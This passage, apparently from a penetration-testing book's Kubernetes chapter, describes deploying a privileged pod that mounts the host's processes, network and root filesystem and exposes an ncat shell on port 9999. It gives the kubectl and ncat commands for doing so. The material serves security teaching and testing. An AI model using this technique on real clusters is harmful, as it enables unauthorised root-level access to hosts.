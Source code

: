 Once these two ﬁles are on the remote server, we will need to download the kubectl ﬁle. Once we have all these pieces in the system, we can then have the kubectl apply a new pod to do the following:

1. The pod will open port 9999.
2. It will mount all the host’s PIDs, environment variables, and networking.
3. It will mount the root ﬁle system right into the container.

We can then connect on that port to gain access to the container, which has elevated privileges:

```
curl -LO "https://dl.k8s.io/release/v1.20.0/bin/linux/amd64/kubectl"

chmod a+x ./kubectl

./kubectl apply -f ncat.yml

./kubectl apply -f ncat-svc.yml

./kubectl get svc

ncat <IP> 9999

whoami
```

***

## REFERENCES

* https://kubernetes.io/partners/#conformance
* https://kubernetes.io/docs/concepts/architecture/
* https://aws.amazon.com/eks/getting-started/
* https://microservices-demo.github.io/
* https://isc.sans.edu/forums/diary/Using+Certiﬁcate+Transparency+as+an+Attack+Defense+Tool/24114/
* https://github.com/coreos/coreos-kubernetes/blob/master/Documentation/kubernetes-networking.md
* https://istio.io/
* https://www.github.com/mosesrenegade/tools-repo/
